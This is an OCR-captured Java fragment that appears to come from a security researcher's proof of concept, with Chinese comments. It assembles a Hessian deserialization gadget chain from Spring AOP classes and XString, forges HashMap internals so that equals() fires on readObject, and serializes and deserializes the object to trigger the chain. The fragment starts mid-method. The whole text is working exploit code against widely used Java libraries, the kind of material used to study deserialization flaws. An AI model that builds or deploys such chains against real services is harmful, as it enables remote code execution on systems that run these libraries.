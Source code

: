 ```java
        Class<?> pcahCl = Class.forName("org.springframework.aop.aspectj.autoproxy.AspectJAwareAdvisorAutoProxyCreator$PartiallyComparableAdvisorHolder");
        Object pcah = createWithoutConstructor(pcahCl);
        setFieldValue(pcah, "advisor", advisor);

        // 反序列化时 HotSwappableTargetSource.equals 会被调用, 触发 Xstring.equals.
        HotSwappableTargetSource hotSwappableTargetSource1 = new HotSwappableTargetSource(pcah);
        HotSwappableTargetSource hotSwappableTargetSource2 = new HotSwappableTargetSource(new XString("h3rmesk1t"));

        HashMap<Object, Object> hashMap = new HashMap<>();
        setFieldValue(hashMap, "size", 2);
        Class<?> nodeC;
        try {
            nodeC = Class.forName("java.util.HashMap$Node");
        }
        catch ( ClassNotFoundException e ) {
            nodeC = Class.forName("java.util.HashMap$Entry");
        }
        Constructor<?> nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);

        Object tbl = Array.newInstance(nodeC, 2);
        Array.set(tbl, 0, nodeCons.newInstance(0, hotSwappableTargetSource1, hotSwappableTargetSource1, null));
        Array.set(tbl, 1, nodeCons.newInstance(0, hotSwappableTargetSource2, hotSwappableTargetSource2, null));
        setFieldValue(hashMap, "table", tbl);

        // Hessian 序列化数据
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        HessianOutput hessianOutput = new HessianOutput(byteArrayOutputStream);
        AllowNonSerializableFactory serializableFactory = new AllowNonSerializableFactory();
        serializableFactory.setAllowNonSerializable(true);
        hessianOutput.setSerializerFactory(serializableFactory);
        hessianOutput.writeObject(hashMap);
        byte[] serializedData = byteArrayOutputStream.toByteArray();
        System.out.println("Hessian 序列化数据为: " + new String(serializedData, 0, serializedData.length));

        // Hessian 反序列化数据
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(serializedData);
        HessianInput hessianInput = new HessianInput(byteArrayInputStream);
        hessianInput.readObject();
    }
}
```
